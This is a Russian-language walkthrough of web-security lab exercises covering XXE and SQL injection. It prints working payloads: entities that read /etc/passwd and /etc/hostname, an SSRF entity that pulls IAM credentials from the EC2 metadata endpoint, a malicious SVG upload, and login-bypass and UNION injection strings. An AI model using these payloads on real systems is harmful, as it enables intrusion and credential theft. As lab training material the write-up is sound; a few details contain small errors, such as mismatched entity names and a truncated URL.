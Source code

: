 # XXE

## Lab: Exploiting XXE using external entities to retrieve files

После поверхностной инспекции содержимого сайта, можно заметить форму stockCheckForm, расположенную внизу страницы конкретного продукта, например /product?productId=1. Отправка этой формы инициирует передачу данных в XML формате, что ввиду некорректной проверки содержимого приводит к уязвимости, эксплуатация которой возможна при при создании сущности <br>
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
<br>
и ее вызове &res; в скрытом параметре productId.
____

## Lab: Exploiting XXE using external entities to retrieve files

В описании задания сказано, что необходимо получить "IAM secret access key from the EC2 metadata endpoint". Путем чтения доков ПО EC2, [обнаруживаем](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), что для роли admin указанное выше можно получить по пути <br>
```url
/latest/meta-data/iam/security-credentials/
```
доступном на 80 порту
169.254.169.254.<br>
После мы эксплуатируем SSRF, отправляя аналогично предыдущему заданию запрос с XXE
```xml
<!DOCTYPE foo [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> 
```
и добавляя вызов сущности в productId.
____

## Lab: Exploiting XInclude to retrieve files

Отправляя checkstock, добавляем в productId

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
____


## Lab: Exploiting XXE via image file upload
Замечаем возможность добавлять комментарии под постами и прикреплять к комментариям изображение. <br>
Загражаем файл 1.svg со следующим содержимым:
```xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
На картинке рядом с нашим комментарием появляется hostname.

____

# SQL

1. Lab: SQL injection vulnerability allowing login bypass

Манипуляции с productId не дают положительных результатов, так как, по видимому, значение данного параметра экранируется. Замечаем форму логина. В поле Username вводим:
```
administrator' or '1'='1 --
```
и произвольную последовательность символов длины 1 в поле password, так как 
### ***"Please fill out this field!"***.
____

2. Lab: SQL injection UNION attack, finding a column containing text

Выбрав категорию ```'+or+1=1--```, замечаем, что нам отобразились все продукты, что говорит о наличии уязвимости SQLi.<br>
Определяем количество столбцов возвращаемых основным запросом:
```
/filter?category='+union+select+NULL+--
/filter?category='+union+select+NULL,NULL+--
/filter?category='+union+select+NULL,NULL,NULL+--
...
```
Оказывается, их 3. Предпологается, что первый столбец содержит (это распространенная практика) цифровой уникальный идентификатор id продукта, поэтому, так как в лабораторке от нас требуется возвращение SQL-запросов конкретной строки, вписываем на место второго столбца ___%uniquestrng%___, написанную под __'Back to lab home'__.
Получается запрос
```
ilter?category='+union+select+NULL,'0qOP0A',NULL+--
```
